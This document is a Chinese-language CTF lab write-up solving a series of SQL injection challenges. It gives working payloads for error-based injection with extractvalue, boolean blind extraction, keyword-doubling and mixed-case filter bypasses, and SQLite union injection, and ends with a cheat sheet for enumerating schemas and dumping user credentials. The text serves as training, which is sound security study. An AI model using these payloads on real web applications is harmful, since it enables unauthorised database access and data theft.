







**题目网址：http://10.140.32.159:21002/**

# LEVEL 
数据库中自带 table_name cloumn_name information_schema 等词条
需要稍微学点sql语法:
SELECT 从库中提取数据（提取的数据可以是库，表，列，或者是数字）  
FROM 从库 / 表 / 列中提取  
WHERE 提取满足某种条件的数据 (如 WHERE table_name='student')  

_注：sql数据库大小写不敏感，所以select和SELECT效果一样_

1. SELECT table_name FROM information_schema.tables WHERE table_schema='student'; 别忘了分号  

2. 填入1' 或 1' or '1' = '1   
_（实测只需要真值为1就行了）_

3. SELECT *FROM info WHERE uage > 24;  
_（这里的*是选取所有满足条件的info中的列）_  

4. SELECT *FROM info WHERE uage > 22 AND uaddress = ‘Qingdao’;  

5. 
    +-------+  
    | uname |  
    +-------+  
    | lucy  |  
    +-------+  
    _事实上出来的就是 select uname from info where uid='1';的结果_  

# LEVEL 1
__听说是最最最最简单的sql注入我就来了__    

1. 首先试试常规的令`id= 1'`，看看会出现什么情况，出现了这样的一行报错信息      
_You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1_      
发现有报错信息，再进一步看看报错信息是怎样表示的，于是输入`id=1' and 1 = 1`, `id=1' and 1 = 2` ,发现报错信息都差不多      
_You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' and 1 = 1' at line 1_    
_You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' and 1 = 2' at line 1_  
可以确定注入点不是',用同样的方法尝试/，发现也不行，看样子并不能使用联合查询注入呢    
_（事实上直接霸王硬上弓，输入`id=1 union select 1,2,3`; 的话网站会大喊Hacker然后把你拒之门外，拼尽全力尝试各种绕过方法无法战胜。）_     

2. 既然不能使用联合查询注入，输入id=1'又有报错信息，那为什么不试试报错注入呢？听名字就很合适！于是火速去学习报错注入。    
这里教了我sql注入的核心语句欸  (_我给放在最后面了_)  

    回到正题，不难发现，报错注入的原理就是调用updatexml() 和 extractvalue() 这两个函数，因为输入时给函数的参数不匹配而产生的语法错误提示来获得数据库内的信息   
    比如如果我们这样调用函数ext   
   
    先试试updaexml()吧，输入   
`id=1 and updatexml(1,concat(0x7e,database(),0x7e),1) --+;`
    然后发现被过滤了    
    _Hacker!_  

    那就再试试 extractvalue()，输入   
`id=1 and extractvalue(1, concat(0x7e,database(),0x7e,user(),0x7e,@@datadir,0x7e));`
    成功爆出数据库及相关信息（虽然只用数据库）
      

    然我们再看看数据库里面的表的内容 _让我看看!_(_杰哥音_)    
    输入 
`id=1 and extractvalue(1, concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e));`

        注：如果使用在concat中使用concat，则会出现‘Subquery returns more than 1 row ’的世界线，所以这里我们使用group_concat

    
    发现有fflllag和user两个表，先冲flag
    (_其实可以根据LEVEL 0猜测，user的内容就是uid，uname和uaddress_)  

    可以开罐头喽，接下来输入 
`id=1 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='level1' and table_name='fflllag'),0x7e))--+;`
      
    怎么还有一层，再开一次

    输入
`id=1 and extractvalue(1,concat(0x7e,(select real_flag from level1.fflllag)));`
      
    就得到fl...欸等等，你这flag怎么只有半截啊（致敬传奇铁御安德森上校）  

    查阅资料后发现报错注入显示出现问题，extractvalue 和 updatexml 两个函数的显示有限，所以我们需要想个法子来分开来看  
    我们这里选择使用mid()这个函数，用法如下  
`id=1 and extractvalue(1,concat(0x7e,mid((select real_flag from level1.fflllag),1,30),0x7e))`
`id=1 and extractvalue(1,concat(0x7e,mid((select real_flag from levle1.fflllag),31,51)0x7e)) ` 
    mid((我想要得到的内容)，1，30)；第一个数字1是内容的起始字符，第一个字符，30是结束字符第三十个字符，这样就能显示从第一个到第三十个字符了，  
      flag{d4759bca-7da5-fee0-1aa7-e     
    第三十一个字符到结尾同理，flag没有第五十一个字符，所以直接结束在最后一个了  
      1bff30a23c0}  
    然后把这~ ~这中间的内容拼到一起就能得到flag了：flag{d4759bca-7da5-fee0-1aa7-e1bff30a23c0} 

# LEVEL 2
__盲人注入，直接破防__

    布尔盲注  
`http://10.140.32.159:21002/level2/?id=1' and substring((select database()),1,6)='level2' --+`  
得到库名 level2    
    
或者    
先得到database的长度，输入：  
`?id=1' AND length(database()) >= 6 --+`
   
若length(database())>=7则报错，所以database()长度为6    
接下来分别求database()每个字母的ASCII值，输入id=1' and ascii(substr(database(),n,1))<=108 --+   
_变换后面比较的值可以来判断第n个字母的ASCII值_    
分别得到六个字母的ASCII值为    
`108，101，118，101，108，50，所以database()名字为'level2'`   
然后正常步骤我们需要获取表的数量，所以输入：  
`1' and (select count(table_name) from information_schema.tables where table_schema=database()) <=n --+`
更改n的值来测  
但是发现就算把n改成1000000000000000000都不能得出正确结果，输入肯定是没问题的，联想题目，猜测是select被屏蔽了，所以我们尝试绕过屏蔽，在select中再输入一遍select，输入：    
`1' and (sselectelect count(table_name) from information_schema.tables where table_schema=database()) <=n --+`
这次有结果了，最后发现结果是2，所以一共有两个表      
接下来取得两个表的名字，输入：        
`1' and length((sselectelect table_name from information_schema.tables where table_schema=database() limit 0,1)) >= n --+`  
更改n的值得到第一个表名的长度为13，    
接下来是取得第一个表名各个字符的ASCII值，输入：    
`1' and ascii(substr((sselectelect table_name from information_schema.tables where table_schema=database() limit 0,1),m,1))>=n --+`  
更改m和n的值，得到14个字母的ASCII值分别为  
102，102，102，108，108，108，108，108，97，97，97，103，103，103所以第一个表名为'ffflllllaaaggg'  
第二个表名长度为11，11个字符ASCII值分别为  
108，101， 118， 101， 50， 95，117， 115， 101，114，， 第二个表名为'level2_user'  
然后获取两个表里面的列，输入：
`1' and (sselectelect count(column_name) from information_schema.columns where table_schema=database() and table_name='表名')判断表达式 --+`
第一个表里就一个列，应该就是flag所在的列了，输入：
`1' and length(substr((sselectelect column_name from information_schema.columns where table_name= 'ffflllllaaaggg' limit 0,1),1))判断表达式 --+`
得到该列名长度为15，然后获列名，输入：
`1' and ascii(substr((sselectelect column_name from information_schema.columns where table_name = 'ffflllllaaaggg' limit 0,1),n,1))判断表达式 --+`
15个字符的ASCII值分别为   
102，108，97，97，97，97，97，97，97，97，97，97，97，97，103，所以列名为flaaaaaaaaaaaag;   
再获取字段长度，输入：    
`1' and length(substr((sselectelect flaaaaaaaaaaaag from ffflllllaaaggg limit 0,1),1))>=判断表达式--+`
得到字段长度为42，42个字符的ASCII值分别为
102，108，97，103，123，101，97，97，98，49，56，55，97，45，50，49，98，50，45，48，102，97，56，45，98，51，53，57，45，51，48，54，57，52，49，51，54，102，54，53，100，125，转换为字符得到flag为   
flag{eaab187a-21b2-0fa8-b359-30694136f65d}  

# LEVEL 3
__大小写绕过__

`http://10.140.32.159:21002/level3/?id=1' OrDer By 5--+`  

发现一共5列   

输入`http://10.140.32.159:21002/level3/?id=1' UniOn sELect daTabAsE(),2,daTabAsE(),4,daTabAsE()--+`   

查表`http://10.140.32.159:21002/level3/?id=1'UniOn sELect 1,tAbLe_NaMe,3,4,5 fRoM iNfOrMaTiOn_sChEmA.tAbLeS wHeRe tAbLe_sChEmA='level3'--+`  

得出两个表名：secret和leveell3_user  

然后`http://10.140.32.159:21002/level3/?id=1'UniOn sELect 1,coLUmn_nAmE,3,4,5 fRoM iNfoRmatIon_sCHeMa.colUmns WheRE taBle_nAme='secret'--+` 

reeeal_flllag   

得到了字段名，便可以查看具体字段   

`http://10.140.32.159:21002/level3/?id=1'UniOn sELeCt 1,reeeal_flllag,3,4,5 FroM secret--+`  

得到结果flag{2b994623-0028-9e8a-b356-0b0ea498b549}  

# LEVEL 4
__sqlite3真好玩嘻嘻__
先用'闭合试试，发现报错信息： 
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'1''" in /html/level4/index.php on line 28   

Sorry, Error!    
之后正常做题真做不出来    
联系题目和报错信息，发现这个数据库好像不是mysql而是sqlite3, 然后改变做法，  
     
首先检测注入类型，发现是字符型注入  

`http://10.140.32.159:21002/level4/?id=1' order by  --`  

数据库是sqlite3    3.34.1  

`http://10.140.32.159:21002/level4/?id=1' UNUNIONION SELSELECTECT 1,name ,1,1 FROM sqlite_master WHERE type='table'--`  

获得level444_user，ffflllllllaaaaaaaagggggggg   

`http://10.140.32.159:21002/level4/?id=1' UNIUNIONON SESELECTLECT NULL,sql, NULL, NULL FROM sqlite_master WHERE type='table' AND name='ffflllllllaaaaaaaagggggggg' --`    

返回`CREATE TABLE ffflllllllaaaaaaaagggggggg ("fl**ag" VARCHAR (50))`  
    
此处直接输入`http://10.140.32.159:21002/level4/`   
`?id=1' UNIUNIONON SESELECTLECT NULL,fl**ag, NULL, NULL FROM ffflllllllaaaaaaaagggggggg --`  

**不可行**   *会报错，所以用[]括起来。   

`http://10.140.32.159:21002/level4/`  
`?id=1' UNIUNIONON SESELECTLECT NULL,[fl**ag], NULL, NULL FROM ffflllllllaaaaaaaagggggggg --`   

题目得解 flag{162e98d4-6d4c-c45c-ee06-12ec853fed7a}   

### sql注入比较重要的语句：  
_information_schema_    

_schemata(schema_name)_  

_tables(table_schema,table_name)_   

_columns(table_schema,table_name,column_name)_  

_select schema_name from information_schema.schemata;_  

_select table_name from information_schema.tables where table_schema='dvwa';_  

_select column_name from information_schema.columns where table_name='users' and table_schema='dvwa';_  

_select concat(username,password) from dvwa.users;_  